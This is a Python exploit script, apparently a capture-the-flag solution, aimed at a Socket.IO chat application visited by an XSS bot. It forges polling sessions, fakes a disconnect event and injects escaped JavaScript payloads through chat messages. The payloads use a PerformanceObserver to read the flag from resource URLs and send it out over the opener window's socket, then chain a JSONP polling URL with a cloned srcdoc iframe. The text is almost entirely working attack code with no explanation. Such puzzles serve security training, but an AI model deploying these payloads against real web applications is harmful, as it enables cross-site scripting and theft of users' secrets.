 ```py

    socket_session = json.loads(res.text[1:])
    print('fake session', socket_session)

    res = session.post(f'{base_url}/socket.io/', params = {
        'EIO': 4,
        'transport': 'polling',
        't': 'P3qHGUZ',
        'sid': socket_session['sid'],
    }, data = b'40')
    assert res.status_code == 200, res.status_code

    return socket_session['sid']

bot_session = requests.Session()
login = bot_session.post(f'{base_url}/', data = {
    'name': 'FizzBuzz101',
}, allow_redirects=False)
assert login.status_code == 302, login.status_code

sio = socketio.Client(http_session=bot_session)
ready = False

@sio.event
def connect():
    global ready

    print('connected!')

    # fake disconnect event so that the bot can connect as well
    sio.emit('disconnect')
    time.sleep(1)
    ready = True
    print('ready for bot!')

@sio.event
def message(data):
    global ready

    if not ready:
        return

    print('message', data)
    if data['content'] == 'FizzBuzz101 joined.': # XSS bot opened the chat
        first_sid = create_sid()
        js_payload = """
(window.exfil = data => window.top.opener.top.socket.emit('message', data))
(window.observer = new parent.PerformanceObserver((list) => { list.getEntries().forEach((entry) => { window.exfil('Flag: ' + decodeURIComponent(entry.name.split('/').pop())); }); }))
(window.observer.observe({ type: 'resource', buffered: true }))
""".strip().replace('\n', ',')
        sio.emit('message', '\\"+'+js_payload+');//')

        second_sid = create_sid()
        jsonp_url = f'{base_url}/socket.io/?EIO=4&transport=polling&t=bingus&sid={second_sid}&j=0'
        js_payload = """
(window.secret=window.open('','secret'))
(window.a=window.top.document.getElementById('xss').cloneNode())
(window.a.srcdoc=window.a.srcdoc.replace('%s','%s'))
(window.secret.document.body.appendChild(window.a))
""".strip().replace('\n', ',') % (second_sid, first_sid)

        sio.emit('message', '\\"+'+js_payload+');//')
```